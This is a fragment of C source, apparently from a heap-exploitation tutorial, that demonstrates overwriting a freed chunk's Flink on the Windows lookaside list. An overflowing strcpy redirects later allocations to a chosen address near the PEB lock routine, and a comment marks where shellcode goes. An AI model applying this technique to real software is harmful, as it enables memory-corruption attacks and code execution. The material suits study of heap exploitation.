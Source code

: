 ```
        printf("Overwrite a chunk on the lookaside\n");
        printf("Heap demonstration\n");
        printf("----------------------------\n");

        // create the heap
        hHeap = HeapCreate(0x00040000,0,0);
        printf("\n(+) Creating a heap at: 0x00%xh\n",hHeap);
        printf("(+) Allocating chunk A\n");

        // allocate the first chunk of size N (<0x3F8 bytes)
        a = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk B\n");

        // allocate the second chunk of size N (<0x3F8 bytes)
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+) Chunk B=0x00%x\n",a,b);
        printf("(+) Freeing chunk B to the lookaside\n");

        // Freeing of chunk B: the chunk gets referenced to the lookaside list
        HeapFree(hHeap,0,b);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Now overflow chunk A:\n");

        // The overflow occurs in chunk A: we can manipulate chunk B's Flink
        // PEB lock routine for testing purposes
        // 16 bytes for size, 8 bytes for header and 4 bytes for the flink

        strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBB\x20\xf0\xfd\x7f");
        // strcpy(a,"XXXXXXXXXXXXXXXXAAAABBBBDDDD");

        //gets(a);

        // set software bp
        //__asm__("int $0x3");

        printf("(+) Allocating chunk B\n");

        // A chunk of block size N is allocated (C). Our fake pointer is returned
        // from the lookaside list.
        b = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);
        printf("(+) Allocating chunk C\n");

        // set software bp
        //    __asm__("int $0x3");

        // A second chunk of size N is allocated: our fake pointer is returned
        c = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,0x10);

        printf("(+) Chunk A=0x00%x\n(+)Chunk B=0x00%x\n(+) Chunk C=0x00%x\n",a,b,c);

        // A copy operation from a controlled input to this buffer occurs: these
        // bytes are written to our chosen location
        // insert shellcode here

        printf("%x",print);
        memcpy(c,"\x00\x10\x40\x00",4);
        // set software bp
        //_asm int 0x3;

```